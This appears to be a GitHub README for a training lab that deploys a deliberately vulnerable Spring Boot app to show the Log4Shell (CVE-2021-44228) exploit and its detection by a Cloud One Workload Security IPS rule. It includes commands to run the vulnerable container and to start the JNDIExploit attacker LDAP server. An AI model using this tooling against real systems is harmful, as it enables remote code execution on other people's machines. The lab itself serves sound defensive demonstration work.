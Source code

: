 # C1-WS-LOG4SHELL
This is a learning application. Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.

# Cloud One - Workload Security
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- KeyPair: name of a current Key Pair

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)]()

## After CloudFormation Template Deployment

1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```

2. In CLoud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - ips rule number: 1011242
    - assign rule and change to Detect Onle for now.
    - accept any rule dependencies.

3. Start docker app

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```
